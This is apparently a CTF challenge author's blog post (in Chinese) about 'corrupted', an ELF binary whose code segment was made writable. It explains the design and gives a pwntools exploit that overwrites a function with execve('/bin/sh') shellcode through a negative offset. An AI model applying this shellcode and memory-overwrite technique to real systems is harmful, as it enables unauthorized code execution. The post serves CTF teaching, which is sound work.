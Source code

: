 ```yaml
---
title: 赛博杯新生赛 2024 - corrupted 出题博客
date: 2024/12/18 19:37:00
updated: 2024/12/22 10:47:00
tags:
    - noob
    - elf header
    - challenge author
sticky: 92
thumbnail: /assets/cbctf2024/rwx.png
excerpt: 前段时间在看ELF头，正好新生赛到了，可以拿来出一道简单题，类似于ret2shell。对于程序头phdr来说，如果`p_type == PT::LOAD`，那么它就是负责加载程序段的。对于本题的情况，我把原来加载代码段的`rx`改成了`rwx`，这样代码段就变成可读可写可执行了。可以通过设置偏移量为`-1394`修改`verify`函数的内容。可以修改4次，总共32字节，足以写一shellcode了，直接拿shell。
---
```


前段时间在看ELF头，正好新生赛到了，可以拿来出一道简单题，类似于`ret2shell`。
想看题解的可以跳过出题思路部分。

## 出题思路

首先可以使用ImHex来探查一下文件的结构。加载`elf.hexpat`:

![img](/assets/cbctf2024/elf.png)

大部分内容在[ctf-wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
都说得很清楚，我这里就不再赘述了，大家可以参考学习。我的想法主要是如果修改了ELF文件头，
会发生什么呢？

对于程序头`phdr`来说，如果`p_type == PT::LOAD`，那么它就是负责加载程序段的。
对于本题的情况，我把原来加载代码段的`rx`改成了`rwx`，这样代码段就变成可读可写可执行了。

![rwx](/assets/cbctf2024/rwx.png)

我还尝试改过段头`shdr`，但是发现改完后对于程序的加载没有任何影响，甚至把整个`shdr`
全部删掉，程序依然能够运行。

{% note purple fa-bug-slash %}
用gdb直接调试没有段头的程序，会提示可执行文件格式错误，这也是反调试的一种手段。
{% endnote %}

接着讲回`phdr`，在程序头中，存在2个程序安全特性：`PT::GNU_STACK`和`PT::GNU_RELRO`。
对于前者，`p_flags`可以设置程序栈区的权限（可以为`x`，即调整NX）；对于后者，
调整了权限也没用，程序仍然会将GOT表设为只读。删除`PT::GNU_STACK`
会让内核自行选择是否需要开启NX，删除`PT::GNU_RELRO`则会使程序从`Partial RELRO`
或`Full RELRO`回落到`No RELRO`。

{% notel blue fa-arrow-right-to-bracket 隐藏的构造器 %}
有些同学可能看见`randdata`放在bss上，就以为`randdata`里面是空的，只要推算出全0的
SHA256结果就能过verify。然而，程序中还有一个函数`loadBuf`，被标记了`constructor`
属性，在程序运行`main`之前会将从`/dev/random`中的随机数据读入`randdata`中，
因此如果正常猜的话选手是不可能猜中`randdata`的值的。
{% endnotel %}

## 题解

程序可以输入4次qword，并且可以指定相对于`match`的偏移量，但是检查时不严格，
可以为负数。

![check](/assets/cbctf2024/check.png)

在输入完4次qword后，会运行到`verify`函数。运行起来查看`vmmap`，程序代码段是可写的，
再检查`verify`的地址，刚好和`match`差了`0x2b90`个字节，可以通过设置偏移量为`-1394`修改
`verify`函数的内容。

![diff](/assets/cbctf2024/vmmap.png)

可以修改4次，总共32字节，足以写一shellcode了，直接拿shell。

![legend](/assets/cbctf2024/legend.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './corrupted'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10030)
    elf = ELF(EXE)

    def answer(idx: int, val: int):
        sh.sendlineafter(b'QWORD do', str(idx).encode())
        sh.sendlineafter(b'QWORD to', str(val).encode())

    offset = (elf.symbols['verify'] - elf.symbols['match']) // 8
    shell = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    push 0x3b
    pop rax
    cdq
    syscall
    '''
    shc = asm(shell) # 21 bytes

    answer(offset, u64(shc[:8]))
    answer(offset + 1, u64(shc[8:16]))
    answer(offset + 2, unpack(shc[16:], 'all'))
    answer(0, 0)

    sh.clean()
    sh.interactive()
    sh.close()
```

## 参考

[ELF 文件 - CTF Wiki](https://ctf-wiki.org/executable/elf/structure/basic-info/)
